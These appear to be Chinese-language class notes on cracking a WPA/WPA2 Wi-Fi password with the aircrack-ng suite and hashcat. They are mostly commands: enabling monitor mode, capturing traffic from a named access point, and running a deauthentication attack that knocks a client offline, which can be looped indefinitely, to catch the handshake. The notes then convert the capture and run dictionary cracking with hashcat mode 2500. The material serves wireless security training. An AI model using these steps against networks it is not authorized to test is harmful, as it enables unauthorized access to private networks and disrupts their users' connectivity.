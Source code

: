 # WPA-hashcat渗透

严重声明:cpu加速都是幌子，aricrack-ng也用cpu，不然用爱跑的？

## 1.hashcat介绍

Hashcat系列软件是比较牛逼的密码破解软件,HashCat主要分为三个版本：Hashcat、oclHashcat-plus、oclHashcat-lite。

这三个版本的主要区别是：

HashCat只支持CPU破解。

oclHashcat-plus支持使用GPU破解多个HASH，并且支持的算法高达77种

oclHashcat-lite只支持使用GPU对单个HASH进行破解，支持的HASH种类仅有32种，但是对算法进行了优化，可以达到GPU破解的最高速度。

如果只有单个密文进行破解的话，推荐使用oclHashCat-lite。

## 2.渗透姿势

### 1.查看网卡

```
ip a
```

### 2.开启监听模式

```
airmon-ng start wlan0
```

### 3.扫描wifi

```
airodump-ng wlan0mon
```

### 4.抓包保存

```
airodump-ng wlan0mon -c 1 --bssid D8:24:BD:79:18:0B -w wpa-1 
-c:指定信道
--bssid:AP的MAC地址
-w:保存抓包结果
```

### 5.进行冲突模式攻击

将设备踢下线，当用户重连的时候，就会抓到握手包

```
aireplay-ng -0 5 -a D8:24:BD:79:18:0B -c 18:CC:18:C5:D5:64 wlan0mon
-0：冲突攻击模式，后面跟发送次数（设置为 0，则为循环攻击，不停的断开连接，客户端无法正常上网）
-a:设置 ap 的 mac
-c：设置已连接的合法客户端的 mac
```

### 6.重新连接wifi

获得握手包，用于破解

![image-20211201201536769](https://img.gyxnb.top/img/image-20211201201536769.png)

### 7.生成hccap文件

```
aircrack-ng wpa-1-01.cap -j wpahaccap
 -j <file>  : create Hashcat v3.6+ file (HCCAPX)
 -J <file>  : create Hashcat file (HCCAP)
```

### 8.破解

```
hashcat -m 2500 wpahaccap.hccapx /root/wifi/passwd.txt
-m:指定破解类型
2500:wpa/wpa2
```

![image-20211201201625121](https://img.gyxnb.top/img/image-20211201201625121.png)

### 9.再次查看密码

```
hashcat -m 2500 wpahaccap.hccapx --show
```

### 10.删除之前破解成功的记录

```
rm ~/.hashcat/hashcat.potfile
```

### 11.使用大字典

根本没有加速

```
hashcat -m 2500 wpahaccap.hccapx /root/wifi/pwd.txt
```

![image-20211201201735564](https://img.gyxnb.top/img/image-20211201201735564.png)

![image-20211201201746153](https://img.gyxnb.top/img/image-20211201201746153.png)

## 3.课后小结

参考：课后笔记
